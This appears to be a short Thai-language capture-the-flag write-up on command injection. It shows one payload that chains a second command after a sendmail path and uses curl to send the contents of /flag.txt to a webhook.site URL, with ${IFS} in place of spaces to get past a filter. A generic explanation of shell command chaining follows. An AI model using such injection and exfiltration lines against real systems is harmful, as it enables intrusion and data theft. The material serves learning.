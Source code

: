 
![alt text](image-1.png)

/usr/sbin/sendmail;curl${IFS}https://webhook.site/a4981f34-8ee2-459c-bfd9-03bb257f2133?x=$(cat${IFS}/flag.txt)

![alt text](image.png)

bypass ใช้ ${IFS} แทน space เพื่อหลีกเลี่ยง filter


ใน Linux/Unix คุณสามารถรัน 2 command ในบรรทัดเดียวได้หลายวิธี:

**1. ใช้ `;` (semicolon) - รัน command ตามลำดับไม่ว่าจะสำเร็จหรือไม่**
```bash
command1; command2
```
ตัวอย่าง:
```bash
echo "Hello"; ls -la
```

**2. ใช้ `&&` (AND) - รัน command ที่สองเมื่อแรกสำเร็จ**
```bash
command1 && command2
```
ตัวอย่าง:
```bash
cd /home/user && ls -la
```

**3. ใช้ `||` (OR) - รัน command ที่สองเมื่อแรกล้มเหลว**
```bash
command1 || command2
```
ตัวอย่าง:
```bash
cd /nonexistent || echo "Directory not found"
```

**4. ใช้ `&` - รัน command แรกใน background แล้วรัน command ที่สอง**
```bash
command1 & command2
```

**5. ใช้ `|` (pipe) - ส่งผลลัพธ์จาก command แรกไปยัง command ที่สอง**
```bash
command1 | command2
```
ตัวอย่าง:
```bash
ps aux | grep apache
```

วิธีที่ใช้บ่อยที่สุดคือ `;` และ `&&` ขึ้นอยู่กับว่าต้องการให้ command ที่สองรันเสมอหรือเฉพาะเมื่อแรกสำเร็จ

